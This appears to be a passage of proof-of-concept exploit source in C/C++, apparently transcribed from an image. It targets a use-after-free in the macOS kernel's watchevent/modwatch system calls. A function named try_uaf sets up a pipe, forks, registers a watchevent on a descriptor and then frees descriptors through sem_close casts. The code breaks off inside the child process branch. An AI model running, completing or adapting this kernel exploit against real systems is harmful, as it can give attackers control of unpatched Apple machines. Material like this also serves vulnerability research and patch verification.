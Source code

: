 ```C
#include <iostream>
#include <unistd.h>
#include <sys/syscall.h>
#include <semaphore.h>
#include <mach/mach.h>

const int kInFd = 3;
const int kOutFd = 4;

#define EV_FD 1
#define EV_RM  8

#define    SYS_watchevent     231
#define    SYS_modwatch       233

struct eventreq64 {
    int      er_type;
    int      er_handle;
    user_addr_t er_data;
    int      er_rcnt;
    int      er_wcnt;
    int      er_ecnt;
    int      er_eventbits;
};

int watchevent(int fd)
{
    struct eventreq64 req;
    int eventmask = 0;
    
    req.er_type = EV_FD;
    req.er_handle = fd;
    
    return syscall(SYS_watchevent, &req, eventmask);
}

void try_uaf() {

    int fd[2] = {0};
    
    int ret = pipe(fd);
    if (ret == -1) {
        printf("pipe error.\n");
        return ;
    }
    
    printf("step 1: Process A(0x%x) create fd1: %d and fd2: %d\n", getpid(), fd[0], fd[1]);
    
    int pid = fork();
    if (pid < 0)
        return ;
    else if (pid == 0)
    {
        printf("step 2: Process B is forked, pid:0x%x\n", getpid());
        
        int iret = watchevent(kInFd);

        printf("step 3: Process B watchevent on fd 3: 0x%x\n", iret);
        
        iret = sem_close((sem_t *)kInFd);
        printf("sem_close 3 iret: %d\n", iret);
        iret = sem_close((sem_t *)kOutFd);
        printf("sem_close 4 iret: %d\n", iret);
```